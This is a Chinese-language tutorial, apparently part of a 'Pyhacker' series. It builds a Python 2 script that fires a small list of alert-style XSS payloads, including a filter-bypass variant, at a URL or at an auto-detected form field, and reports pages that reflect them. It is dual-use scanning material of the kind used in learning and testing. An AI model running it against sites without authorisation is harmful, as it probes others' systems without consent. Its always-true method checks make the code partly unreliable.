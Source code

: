 ## Pyhacker 之 Xss检测

**00x1：**  

需要用到的模块如下：  

import requests  

**00x2：**  

大致思路：  

每次插入一个xss，判断网页内容是否存在，如果存在则输出  

```
def req(url,xss):
    headers = {
        'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0'
    }
    req = requests.get(url=url+xss,headers=headers,verify=False,timeout=3)
    print u"正在测试",url,xss
    if xss in req.content:
        print "[+]Find Xss url:%s    payload:%s"%(url,xss)
```  

为了方便测试，我们先定义一个payload列表  

```
xss = ["<script>alert('XSS')</script>",
       "%3Cscript%3Ealert('XSS')%3C/script%3E",
       '"><sc<script>ript>alert(/xss/)</script>',
       "<svg onload=alert(/1/)>"
       ]
```  

**00x3：**  

修改一下源代码，过滤script  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/8/1.png)  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/8/2.png)  

ok，一切正常  

**00x4：**  

我们来运行一下，遍历xss payload  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/8/3.png)  

你也可以定义一个xss.txt，进行读取，然后遍历xss fuzz  

（post请求也是如此，只需要一个post请求即可）  

你也可以加上 如果存在xss则退出  

**00x5：**  

代码如下：  

```
#!/usr/bin/python
#-*- coding:utf-8 -*-
import requests
import urllib3
urllib3.disable_warnings()

def req(url,xss):
    url = url + xss
    headers = {
        'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0'
    }
    req = requests.get(url,headers=headers,verify=False,timeout=3)
    print u"正在测试",url
    if xss in req.content:
        print "[+]Find Xss url:%s    payload:%s"%(url,xss)

xss = ["<script>alert('XSS')</script>",
       "%3Cscript%3Ealert('XSS')%3C/script%3E",
       '"><sc<script>ript>alert(/xss/)</script>',
       "<svg onload=alert(/1/)>"
       ]

for x in xss:
    req('http://127.0.0.1/xss.php?xss_input=1',x)
```  

**00x6：**  

当然这只是一个最简单的模型，下面我们来进行维护加强一下  

  

思路：  

我们可以匹配网页的form标签（表单提交），然后获取请求方式，以及请求参数，模拟请求，进行fuzz  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/8/4.png)  

```
def html(url):
    headers = {
        'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0'
    }
    req = requests.get(url,headers=headers,verify=False,timeout=3)
    r =r'<form.*</form>'
    form = re.findall(r,req.content,re.S)
    print form
```  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/8/5.png)  

接着我们去获取他的请求方式，以及请求参数  

```
method=re.findall(r'method="(.*?)"',str(form))
print method
name = re.findall(r'name="(.*?)"', str(form))
print name
```  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/8/6.png)  

Ok，我们设置全局变量，方便调用  

```
global method,name
```  

**00x7：**  

添加判断，自动fuzz  

```
if method[0] == 'get' or 'GET':
    req = requests.get(url=url+"?"+name[0]+"="+xss,headers=headers,verify=False,timeout=3)
    print u"正在测试",url,xss
    if xss in req.content:
        print "[+]Find Get Xss url:%s    payload:%s"%(url,xss)
if method[0] == 'post' or 'POST':
    data={name[0]:xss}
    req = requests.post(url=url,data=data,headers=headers,verify=False,timeout=3)
    print u"正在测试",url,xss
    if xss in req.content:
        print "[+]Find Post Xss url:%s    payload:%s"%(url,xss)
```

我们修改为post请求来测试一下  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/8/7.png)  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/8/8.png)  

**00x8：**  

为了更人性化，我们再修改一下，导入sys模块  

sys.exit() 表示退出程序  

```
def html(url):
    global method,name
    headers = {
        'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0'
    }
    req = requests.get(url,headers=headers,verify=False,timeout=3)
    r =r'<form.*</form>'
    form = re.findall(r,req.content,re.S)
    method=re.findall(r'method="(.*?)"',str(form))
    name = re.findall(r'name="(.*?)"', str(form))
    try:
        if method==None or name==None:
            sys.exit(0)
        else:
            print u"\nFind method = %s    name = %s\n"%(method[0],name[0])
    except:
        print u"\n自动分析失败!"
        sys.exit(0)
```  

![img](https://github.com/hackxc/Pyhacker/blob/master/books/img/8/9.png)  

**00x9：**  

完整代码：/books/config/8.[Pyhacker]Xss检测  

```
#!/usr/bin/python
#-*- coding:utf-8 -*-
import requests,re,sys
import urllib3
urllib3.disable_warnings()

def req(url,xss):
    headers = {
        'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0'
    }
    if method[0] == 'get' or 'GET':
        req = requests.get(url=url+"?"+name[0]+"="+xss,headers=headers,verify=False,timeout=3)
        print u"正在测试",url,xss
        if xss in req.content:
            print "[+]Find Get Xss url:%s    payload:%s"%(url,xss)
            sys.exit(1)
    if method[0] == 'post' or 'POST':
        data={name[0]:xss}
        req = requests.post(url=url,data=data,headers=headers,verify=False,timeout=3)
        print u"正在测试",url,xss
        if xss in req.content:
            print "[+]Find Post Xss url:%s    payload:%s"%(url,xss)
            sys.exit(1)

def html(url):
    global method,name
    headers = {
        'User-Agent':'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3314.0 Safari/537.36 SE 2.X MetaSr 1.0'
    }
    req = requests.get(url,headers=headers,verify=False,timeout=3)
    r =r'<form.*</form>'
    form = re.findall(r,req.content,re.S)
    method=re.findall(r'method="(.*?)"',str(form))
    name = re.findall(r'name="(.*?)"', str(form))
    try:
        if method==None or name==None:
            sys.exit(0)
        else:
            print u"\nFind method = %s    name = %s\n"%(method[0],name[0])
    except:
        print u"\n自动分析失败!"
        sys.exit(0)


if __name__ == '__main__':
    url = raw_input('\nurl:')
    if 'http' not in url:
        url = 'http://'+url
    xss = ["<script>alert('XSS')</script>",
           "%3Cscript%3Ealert('XSS')%3C/script%3E",
           '"><sc<script>ript>alert(/xss/)</script>',
           "<svg onload=alert(/1/)>"
           ]

    html(url)
    for x in xss:
        req(url,x)
```  

文章写到这里就结束了，但还是存在一些缺陷，比如表单有多个name，所以你需要去加载多个name，进行请求，这里就不修改了，仅抛砖引玉，希望你可以开发出自己的大项目！
